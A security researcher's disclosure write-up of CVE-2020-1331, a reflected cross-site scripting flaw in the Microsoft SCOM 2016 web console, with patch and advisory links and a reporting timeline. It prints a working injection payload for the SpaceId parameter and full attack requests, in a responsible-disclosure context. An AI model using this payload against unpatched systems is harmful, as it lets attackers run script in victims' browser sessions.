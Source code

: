 ```yaml
---
layout: post
date: 21-06-2020
title: CVE-2020-1331
permalink: /CVE-2020-1331/
category: cves
order: 1
---
```


# Microsoft SCOM 2016: Reflected Cross Site Scripting 
In this article I am describing in detail the [Reflected Cross Site Scripting (XSS)][1] vulnerability I found in the Microsoft System Center Operations Manager (SCOM) 2016.

Normally, finding XSS vulnerabilities is quite straightforward. When the application fails to perform proper input validation/output encoding, it's just a matter of finding the correct HTTP parameter to inject the *alert(1)* and it pops-up in browser with little to no effort. 

However, it wasn't the case in SCOM 2016.
Most of the pages were performing proper input validation, except one.
Most of the pages were performing output encoding, except one.
And for the best of luck of a pentester, they were linked: the page lacking output encoding was consuming data stored in session by the page lacking input validation. I just had to connect the dots and craft the specific payload to make it fit in the existing code.

## Exploitation steps

**1** - After logon, intercept the requests with a http-proxy (BurpSuite, ZAP), click on any of the available options on the Left Side Panel: *Monitoring*, *Favorites*.

**2** - After a few requests, the following one is sent:

**Original Request**

```
GET /OperationsManager/InternalPages/NavigationTree.aspx?SpaceId=1002&ViewId=Favorites_Overview HTTP/1.1
Host: [HOSTNAME]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://[HOSTNAME]/OperationsManager/default.aspx?ViewType=Overview&ViewID=Favorites_Overview
Connection: Keep-Alive
Cookie: ASP.NET_SessionId=[REDACTED]; JavaErrorShown=true; 
Upgrade-Insecure-Requests: 1
```
**3** - Inject the following payload into *SpaceId* query string parameter:

```
abc%3E%3C","00000000-0000-0000-0000-000000000000");alert(1);//%3E
```

**Modified Request**

```
GET /OperationsManager/InternalPages/NavigationTree.aspx?SpaceId=abc%3E%3C","00000000-0000-0000-0000-000000000000");alert(1);//%3E&ViewId=00000000-0000-0000-0000-000000000000 HTTP/1.1
Host: [HOSTNAME]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [HOSTNAME]
Connection: Keep-Alive
Cookie: ASP.NET_SessionId=[REDACTED]; JavaErrorShown=true; 
Upgrade-Insecure-Requests: 1
```

The attack is applicable to any *viewID* value and every request with *SpaceId* query string parameter.

**4** - Reload the homepage, */OperationsManager* on this case, and voilà. The expected *alert(1)* pops-up. 


![Alert(1) pop-up](/assets/img/xss_1.png)


## Fix Patch
[Download](https://download.microsoft.com/download/2/c/2/2c24ee98-49b3-48d1-81ad-d741ca81be10/SCOM2016HotfixKB4563076.EXE)

## Microsoft Acknowledgement
[Microsoft Security Advisory
](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1331)

[Microsoft Support CVE-2020-1331 article](https://support.microsoft.com/en-us/help/4566040/prevent-javascript-injection-in-operations-manager-2016-web-console)

## Vulnerability Timeline

* Reported to Microsoft on 16-Jan-2020
* Fix patch available on 09-Jun-2020

## External references

[https://nvd.nist.gov/vuln/detail/CVE-2020-1331
](https://nvd.nist.gov/vuln/detail/CVE-2020-1331)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1331](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1331)

[1]:https://owasp.org/www-community/attacks/xss/